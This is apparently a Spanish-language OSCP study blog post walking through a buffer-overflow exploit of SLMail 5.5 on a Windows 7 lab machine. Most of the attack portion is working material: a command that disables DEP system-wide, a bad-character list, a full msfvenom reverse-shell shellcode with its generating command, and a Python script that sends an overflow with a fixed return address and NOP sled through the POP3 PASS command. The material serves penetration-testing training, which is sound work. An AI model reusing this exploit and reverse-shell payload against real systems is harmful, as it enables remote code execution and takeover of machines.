 ```yaml
---
title: Buffer OverFlow a SLMail 5.5
layout: page
permalink: /Misc_Buffer_Overflow_SlMail
---
```

<h2 id="whity">Buffer OverFlow a SLMail 5.5.</h2>
<h1 class="amarillo">Descripción</h1>

En esta publicación detallo mi practica a un Buffer OverFlow usando Python3 para la ejecución remota de comandos RCE a bajo nivel, y persistencia en un sistema Windows 7 de 32 bits.

### Firewall de Windows y reglas de Entrada/Salida - Configuración Parte 1

Lo primero es configurar una maquina Windows para montar el entorno de practica, y es importante que este bien configurado para tener comunicación entre maquinas `(La maquina Windows con el binario vulnerable, y nuestra maquina de atacante).`

> *Se usara un sistema Windows 7 de 32 bits, la versión starter.*

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/W7.png" alt="bof" oncontextmenu="return false;">
</div>

---
Después de instalar la maquina Windows, es muy importante que haya comunicación entre las 2 maquinas mediante trazas **ICMP**, debido a que por defecto estas reglas vienen deshabilitadas, por tanto, para lograr esta configuración debemos ir a la configuración avanzada de firewall de Windows y habilitar las reglas de Entrada/Salida para tener la comunicación por iPv4 y por iPv6.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/ReglasEntrada.png" alt="bof" oncontextmenu="return false;">
</div>

---
> En la imagen se muestran las reglas de entrada donde hay que habilitar las cuatro reglas para poder recibir una comunicación de nuestra maquina de atacante, de esta forma habrá una comunicación, por tanto hay que repetir el proceso para las reglas de salida.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/ReglasSalida.png" alt="bof" oncontextmenu="return false;">
</div>

---
Una vez con las reglas habilitadas probamos la comunicación.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/PruebaPing.png" alt="bof" oncontextmenu="return false;">
</div>

---
Al enviar 4 paquetes y recibirlos confirma que hay comunicación entre maquinas completando el primer paso para dar inicio a la practica del BufferOverflow.

### Desactivar el DEP - Configuración Parte 2

Esta parte es importante, debemos abrir un símbolo del sistema como administrador y ejecutar el siguiente comando.

```bash
bcdedit.exe /set {current} nx AlwaysOff
```

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/DEP.png" alt="bof" oncontextmenu="return false;">
</div>

---
Estamos desactivando el *DEP* `(Data Execution Protection)`, pero para todo el sistema, también se puede hacer para el binario Slmail concretamente desde el apartado GUI, pero al ser una maquina virtual que su único propósito es la practica de BufferOverflow y después será eliminada. La verdad es que no supone ningun problema este comando.

> *Debemos reiniciar el sistema para que se apliquen los cambios* 

### Utilidades - Configuración Parte 3

Para las utilidades se descargaran unas aplicaciones para hacer el trabajo mas cómodo, por tanto, se descargara el binario al cual vamos a atacar *(Slmail_5.5 ya que es vulnerable a BOF)* la aplicación **Inmunity Debugger** para monitorizar todo a bajo nivel.

> Una vez instalado El binario Slmail debemos reiniciar nuestro sistema

Nos vamos a sistema y seguridad, sistema, configuración avanzada del sistema, configuración y prevención de ejecución de datos. Aquí vemos que el *DEP*` (Data Execution Protection)` este deshabilitado.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/DEPvalidacion.png" alt="bof" oncontextmenu="return false;">
</div>

---
El binario SLmail trabaja en el `puerto 25` y el `puerto 110` que corren esta utilidad.

Para ver la comunicación hay que crear una nueva regla, donde a nivel de protocolo **TCP** hay que especificar los `puertos 25, 110` y permitir la comunicación.

Se procede a instalar la utilidad **mona.py** para trabajar con **Inmunity Debuuger**.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/mona.png" alt="bof" oncontextmenu="return false;">
</div>

---
> A continuación la vista del script **mona.py** desde el **Inmunity Debugger**.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/mona2.png" alt="bof" oncontextmenu="return false;">
</div>

---
### Enumeración

Mediante `nmap -sS --min-rate 5000 --open -vvv -n -Pn` obtendremos los resultados del escaneo.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/nmap.png" alt="bof" oncontextmenu="return false;">
</div>

---
### Badchars

Son necesarios para evitar conflictos al momento de crear nuestra shellcode y que el registro ESP pueda interpretar nuestro código y proporcionarnos nuestra reverse Shell, o el comando que queramos inyectar en el sistema.

```c
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
### Shellcode
```c
"\xda\xd7\xd9\x74\x24\xf4\xbf\xe4\x1f\x0e\x1c\x5a\x31\xc9"
"\xb1\x52\x83\xc2\x04\x31\x7a\x13\x03\x9e\x0c\xec\xe9\xa2"
"\xdb\x72\x11\x5a\x1c\x13\x9b\xbf\x2d\x13\xff\xb4\x1e\xa3"
"\x8b\x98\x92\x48\xd9\x08\x20\x3c\xf6\x3f\x81\x8b\x20\x0e"
"\x12\xa7\x11\x11\x90\xba\x45\xf1\xa9\x74\x98\xf0\xee\x69"
"\x51\xa0\xa7\xe6\xc4\x54\xc3\xb3\xd4\xdf\x9f\x52\x5d\x3c"
"\x57\x54\x4c\x93\xe3\x0f\x4e\x12\x27\x24\xc7\x0c\x24\x01"
"\x91\xa7\x9e\xfd\x20\x61\xef\xfe\x8f\x4c\xdf\x0c\xd1\x89"
"\xd8\xee\xa4\xe3\x1a\x92\xbe\x30\x60\x48\x4a\xa2\xc2\x1b"
"\xec\x0e\xf2\xc8\x6b\xc5\xf8\xa5\xf8\x81\x1c\x3b\x2c\xba"
"\x19\xb0\xd3\x6c\xa8\x82\xf7\xa8\xf0\x51\x99\xe9\x5c\x37"
"\xa6\xe9\x3e\xe8\x02\x62\xd2\xfd\x3e\x29\xbb\x32\x73\xd1"
"\x3b\x5d\x04\xa2\x09\xc2\xbe\x2c\x22\x8b\x18\xab\x45\xa6"
"\xdd\x23\xb8\x49\x1e\x6a\x7f\x1d\x4e\x04\x56\x1e\x05\xd4"
"\x57\xcb\x8a\x84\xf7\xa4\x6a\x74\xb8\x14\x03\x9e\x37\x4a"
"\x33\xa1\x9d\xe3\xde\x58\x76\xcc\xb7\x62\x96\xa4\xc5\x62"
"\x97\x8f\x43\x84\xfd\xff\x05\x1f\x6a\x99\x0f\xeb\x0b\x66"
"\x9a\x96\x0c\xec\x29\x67\xc2\x05\x47\x7b\xb3\xe5\x12\x21"
"\x12\xf9\x88\x4d\xf8\x68\x57\x8d\x77\x91\xc0\xda\xd0\x67"
"\x19\x8e\xcc\xde\xb3\xac\x0c\x86\xfc\x74\xcb\x7b\x02\x75"
"\x9e\xc0\x20\x65\x66\xc8\x6c\xd1\x36\x9f\x3a\x8f\xf0\x49"
"\x8d\x79\xab\x26\x47\xed\x2a\x05\x58\x6b\x33\x40\x2e\x93"
"\x82\x3d\x77\xac\x2b\xaa\x7f\xd5\x51\x4a\x7f\x0c\xd2\x7a"
"\xca\x0c\x73\x13\x93\xc5\xc1\x7e\x24\x30\x05\x87\xa7\xb0"
"\xf6\x7c\xb7\xb1\xf3\x39\x7f\x2a\x8e\x52\xea\x4c\x3d\x52"
"\x3f"
```

### Código del Script

Para conseguir el shellcode se puede hacer uso de la herramienta **msfvenom**.

> msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=443 -a x86 --platform windows -b '\x00\x0a\x0d' -e x86/shikata_ga_nai -f c

El script esta hecho en python3.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/script.png" alt="bof" oncontextmenu="return false;">
</div>

---
```python
#!/usr/bin/python
# Juan Garcia (aka liandd)
from pwn import *
from struct import pack
import socket, sys

def exploit(ip_address, rport):
    # Escapar el shellcode con b para indicar que son bytes
    shellcode= (b"\ejemplo")

    buffer = b"A" * 2606 + pack("<L", 0x5f4a358f) + b"\x90"*16 + shellcode
    
    p1 = log.progress("Data")
    try:
        p1.status("Enviando %s bytes" % len(buffer))
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_address, rport))
        s.recv(1024)
        s.send(b'USER eva\r\n')
        s.recv(1024)
        s.send(b'PASS ' + buffer + b'\r\n')
        s.recv(1024)
    except Exception as e:
        print("\n[!] Ha habido un error de conexión:", e)
        sys.exit(0)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print ("\n[!] Uso : python " + sys.argv[0] + " <ip-address>\n")
        sys.exit(0)

    ip_address = sys.argv[1]
    rport = 110

    exploit(ip_address, rport)
```

### Conclusión

El Script es compilado y funciona correctamente.

---

Esta publicación ha sido creada como soporte en el aprendizaje de BufferOverFlow para la OSCP.

© Juan David Garcia Acevedo (aka liandd)
